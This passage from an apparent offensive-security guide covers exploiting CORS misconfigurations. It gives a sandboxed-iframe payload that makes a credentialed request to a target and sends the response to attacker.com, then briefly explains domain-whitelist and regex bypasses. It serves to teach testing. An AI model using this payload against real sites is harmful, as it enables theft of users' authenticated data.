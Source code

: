 ```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

### Regular Expression Bypass Techniques

When encountering a domain whitelist, it's crucial to test for bypass opportunities, such as appending the attacker's domain to a whitelisted domain or exploiting subdomain takeover vulnerabilities. Additionally, regular expressions used for domain validation may overlook nuances in domain naming conventions, presenting further bypass opportunities.

### Advanced Regular Expression Bypasses

Regex patterns typically concentrate on alphanumeric, dot (.), and hyphen (-) characters, neglecting other possibilities. For example, a domain name crafted to include characters interpreted differently by browsers and regex patterns can bypass security checks. Safari, Chrome, and Firefox's handling of underscore characters in subdomains illustrates how such discrepancies can be exploited to circumvent domain validation logic.

**For more information and settings of this bypass check:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **and** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
